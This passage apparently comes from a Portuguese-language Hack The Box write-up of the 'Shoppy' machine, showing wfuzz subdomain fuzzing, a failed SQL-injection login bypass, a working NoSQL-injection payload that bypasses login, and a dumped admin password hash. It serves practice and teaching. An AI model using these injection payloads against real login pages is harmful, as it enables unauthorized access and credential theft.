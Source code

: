 ```console
[19:28:49] 200 -    1KB - /LOGIN/     (Added to queue)
[19:28:49] 200 -    1KB - /LOGIN
```

O `fuzzing` de Subdominios deu em nada.
- `wfuzz -c -f sub-fighter -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hw 11`

```console
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================

Total time: 380.8971
Processed Requests: 19966
Filtered Requests: 19966
Requests/sec.: 52.41835
```

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy1.png)

Ao tentar realizar o bypass de login encontrei uma tela de erro

- `' or 1=1-- -`

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy2.png)

Tentei a lista de SQLi Generic do Seclists mas sem sucesso.

Então parti pra tentativa de NoSQLi: 

[NoSQL injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

Utilizando como consulta o HackTricks encontramos um parâmetro que deu certo: `admin' || 1==1%00`

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy3.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy4.png)

Assim, conseguimos o bypass login na aplicação

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy5.png)

Ao pesquisar pelo usuário admin retornou dados de credenciais

![Untitled](https://mithr4nd1r.github.io/assets/img/htb/2022-12-21-writeup-htb-shoppy/shoppy6.png)

```bash
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
```
